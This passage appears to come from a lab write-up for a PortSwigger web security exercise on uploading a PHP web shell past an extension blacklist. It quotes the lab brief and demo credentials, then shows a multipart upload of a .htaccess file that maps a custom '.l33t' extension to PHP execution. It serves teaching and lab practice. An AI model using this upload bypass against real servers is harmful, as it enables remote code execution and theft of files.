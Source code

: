 The files is uploaded to the folder “/files” and not “/files/avatars”:

![img](media/25f07aaa418cdd48038c58781768c792.png)

04 Web shell upload via extension blacklist bypass
==================================================

This lab contains a vulnerable image upload function. Certain file extensions
are blacklisted, but this defense can be bypassed due to a fundamental flaw in
the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the
contents of the file /home/carlos/secret. Submit this secret using the button
provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

Hint: You need to upload two different files to solve this lab.

References:

-   https://portswigger.net/web-security/file-upload

New .htaccess file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/4e4db020a2bbb15b34107d9a1ed27f39.png)
